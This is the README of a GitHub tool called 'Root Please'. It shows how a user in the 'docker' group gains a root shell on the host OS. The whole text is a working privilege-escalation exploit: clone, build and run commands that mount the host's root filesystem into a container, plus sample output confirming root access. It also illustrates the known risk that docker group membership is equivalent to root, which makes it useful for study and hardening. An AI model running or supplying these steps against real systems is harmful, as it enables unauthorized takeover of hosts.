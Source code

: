Root Please
===========

If you're a member of the 'docker' group on a machine, this command gives you a root shell on the host OS. [See my blog post for details](https://fosterelli.co/privilege-escalation-via-docker.md).

How to Use
----------

This builds the Github repo and runs the Docker image:

```bash
> git clone https://github.com/chrisfosterelli/dockerrootplease rootplease
> cd rootplease/
> docker build -t rootplease .
>  docker run -v /:/hostOS -i -t rootplease
```

And the result:

```bash
johndoe@testmachine:~$ docker run -v /:/hostOS -i -t rootplease
[...]
You should now have a root shell on the host OS
Press Ctrl-D to exit the docker instance / shell
# whoami
root
# 
```

